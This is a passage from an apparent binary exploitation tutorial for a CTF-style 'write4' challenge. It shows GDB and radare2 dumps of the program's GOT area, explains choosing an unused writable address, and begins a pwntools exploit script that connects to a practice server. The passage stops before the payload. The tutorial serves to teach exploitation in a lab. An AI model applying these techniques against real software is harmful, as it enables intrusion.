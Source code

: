 {% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/20gx 0x601000
0x601000:	0x0000000000600e00	0x00007ffff7ffe2e0
0x601010:	0x00007ffff7fd8d30	0x0000000000400506
0x601020 <print_file@got.plt>:	0x0000000000400516	0x0000000000000000
0x601030:	0x0000000000000000	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080:	0x0000000000000000	0x0000000000000000
0x601090:	0x0000000000000000	0x0000000000000000
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x7f8048c7c290]> pxw 160 @ 0x601000
0x00601000  0x00600e00 0x00000000 0x00000000 0x00000000  ..`.............
0x00601010  0x00000000 0x00000000 0x00400506 0x00000000  ..........@.....
0x00601020  0x00400516 0x00000000 0x00000000 0x00000000  ..@.............
0x00601030  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601040  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601050  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601060  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601070  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601080  0x00000000 0x00000000 0x00000000 0x00000000  ................
0x00601090  0x00000000 0x00000000 0x00000000 0x00000000  ................
```
{% endtab %}
{% endtabs %}

We see that `0x601030` doesn't seem to be used by anything, so we'll choose there. We could play it safer and choose something further away, but in this case, we'll see it doesn't matter.

{% hint style="warning" %}
If you're writing your exploit and finding that your data doesn't seem to be writing to memory, or that your program is crashing, it's likely that you're writing to a location that's used. Try to find a different location.
{% endhint %}

### Writing the Exploit

Now, let's put this all together. We'll start by defining the binary, library, and the process:

```python
elf = context.binary = ELF('./write4')
libc = ELF('./libwrite4.so')
proc = remote('vunrotc.cole-ellis.com', 5400)
```

Then, we'll define all our essentials. The functions, variables, addresses, and gadgets:
